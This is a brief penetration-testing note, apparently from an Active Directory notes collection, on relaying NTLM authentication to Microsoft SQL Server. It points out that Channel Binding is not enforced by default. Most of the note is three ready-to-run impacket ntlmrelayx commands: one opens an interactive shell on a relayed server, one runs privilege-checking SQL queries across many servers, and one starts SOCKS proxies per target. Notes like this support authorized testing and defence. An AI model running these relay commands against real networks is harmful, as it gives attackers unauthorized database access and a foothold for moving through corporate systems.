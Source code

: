 ```yaml
---
title: NTLM Relay to MSSQL
---
```


[[notes/ad/mssql]] servers can be used as [[notes/ad/ntlm-relay-sink]].
Relaying can be prevented by requiring TLS encryption with *Channel Binding*, but this is not enforced by default ([source](https://learn.microsoft.com/en-us/sql/database-engine/configure-windows/connect-to-the-database-engine-using-extended-protection)).

Relay to a single [[notes/ad/mssql]] server and drop into an interactive shell ([source](https://github.com/fortra/impacket/pull/1535)).

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-ntlmrelayx --no-http-server --no-raw-server --no-wcf-server -smb2support -i --no-multirelay -t mssql://db01.corp.local
    ~~~

Relay to multiple [[notes/ad/mssql]] servers and execute a predefined SQL query.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-ntlmrelayx --no-http-server --no-raw-server --no-wcf-server -smb2support -tf ./mssql.txt -q "SELECT SYSTEM_USER;SELECT USER_NAME();SELECT IS_SRVROLEMEMBER('sysadmin');"
    ~~~

Relay to multiple [[notes/ad/mssql]] servers and start a SOCKS proxy per target.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-ntlmrelayx --no-http-server --no-raw-server --no-wcf-server -smb2support -tf ./mssql.txt -socks
    ~~~

It might be necessary to specify the target as IP address.
